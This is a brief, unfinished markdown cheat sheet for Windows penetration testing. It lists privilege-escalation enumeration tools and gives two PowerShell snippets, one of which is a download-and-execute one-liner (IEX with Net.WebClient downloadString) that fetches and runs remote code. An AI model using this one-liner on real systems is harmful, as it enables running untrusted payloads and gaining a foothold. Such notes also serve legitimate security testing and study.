 # Windows
**work in progress**

- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Other](#other)
  - [Privilege Escalation](#)

## Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [Watson](https://github.com/rasta-mouse/Watson)

## Other
Some useful stuff.

### Powershell: download files
```powershell
Invoke-WebRequest <URL> -Outfile <PATH>
```

### Powershell: download and execute file
```powershell
IEX(New-Object Net.WebClient).downloadString("URL")
```
